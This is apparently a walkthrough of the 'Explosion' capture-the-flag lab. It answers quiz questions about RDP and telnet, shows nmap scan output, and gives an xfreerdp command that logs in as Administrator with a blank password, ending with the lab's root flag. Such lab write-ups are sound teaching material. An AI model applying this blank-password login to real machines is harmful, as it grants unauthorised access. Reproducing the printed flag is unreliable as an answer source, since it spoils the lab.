

# Explosion

You can watch the resolution in video [here](https://youtu.be/ohIFAfpqVf8)

## What does the 3-letter acronym RDP stand for?


## What is a 3-letter acronym that refers to interaction with the host through a command line interface?



## What about graphical user interface interactions?


## What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?

```
23/tcp open telnet
```

## What is the name of the service running on port 3389 TCP?

```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-28T05:33:20+00:00; -23s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-28T05:33:12+00:00
| ssl-cert: Subject: commonName=Explosion
[SNIP]
```

## What is the switch used to specify the target host's IP address when using xfreerdp?

```
❯ xfreerdp --help

[SNIP]
  /v:<server>[:port]                Server hostname
    /vc:<channel>[,<options>]         Static virtual channel
    /version                          Print version
    /video                            Video optimized remoting channel
    /vmconnect[:<vmid>]               Hyper-V console (use port 2179, disable
                                      negotiation)
    /w:<width>                        Width
    -wallpaper                        Disable wallpaper
    +window-drag                      Enable full window drag
    /window-position:<xpos>x<ypos>    window position
    /wm-class:<class-name>            Set the WM_CLASS hint for the window
                                      instance
    /workarea                         Use available work area

Examples:
    xfreerdp connection.rdp /p:Pwd123! /f
    xfreerdp /u:CONTOSO\JohnDoe /p:Pwd123! /v:rdp.contoso.com
    xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489
    xfreerdp /u:JohnDoe /p:Pwd123! /vmconnect:C824F53E-95D2-46C6-9A18-23A5BB403532 /v:192.168.1.100

Clipboard Redirection: +clipboard

[SNIP]
```

## What username successfully returns a desktop projection to us with a blank password?

```
❯ xfreerdp /v:10.129.130.42 /u:Administrator
```

## Submit root flag

```
951fa96d7830c451b536be5a6be008a0
```